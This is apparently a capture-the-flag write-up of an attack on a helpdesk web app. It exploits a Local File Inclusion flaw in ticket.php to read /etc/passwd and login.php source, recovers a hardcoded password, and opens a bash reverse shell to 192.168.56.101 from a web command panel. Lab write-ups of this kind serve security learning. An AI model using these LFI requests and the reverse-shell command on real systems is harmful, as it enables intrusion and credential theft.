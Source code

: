 ## Testing the `url` parameter — LFI

Test LFI by requesting a local file:

```
http://helpdesk/ticket.php?url=/etc/passwd
```

Response contained `/etc/passwd`:

```
root:x:0:0:root:/root:/bin/bash
...
helpdesk:x:1001:1001::/home/helpdesk:/bin/bash
```

> **Confirmed:** `ticket.php?url=` is vulnerable to **Local File Inclusion**.

---

## Viewing `login.php` source via LFI

Include the login page to inspect source code:

```bash
curl "http://helpdesk/ticket.php?url=login.php"
```

Found:

```php
// Stored credentials
$stored_user = 'helpdesk';

// SHA-512 hash for password: ticketmaster
$stored_hash = '$6$ABC123$fLo2MacCV...';
```

> Username: `helpdesk` — password hash corresponds to `ticketmaster`.

---

## Remote command panel & initial access

The discovered credentials worked on the web panel (SSH login failed). The panel provided a remote command interface.

Start a listener on the attacker machine:

```bash
nc -lvnp 4444
```

Trigger a reverse shell from the web panel:

```bash
bash -c "bash -i >& /dev/tcp/192.168.56.101/4444 0>&1"
```
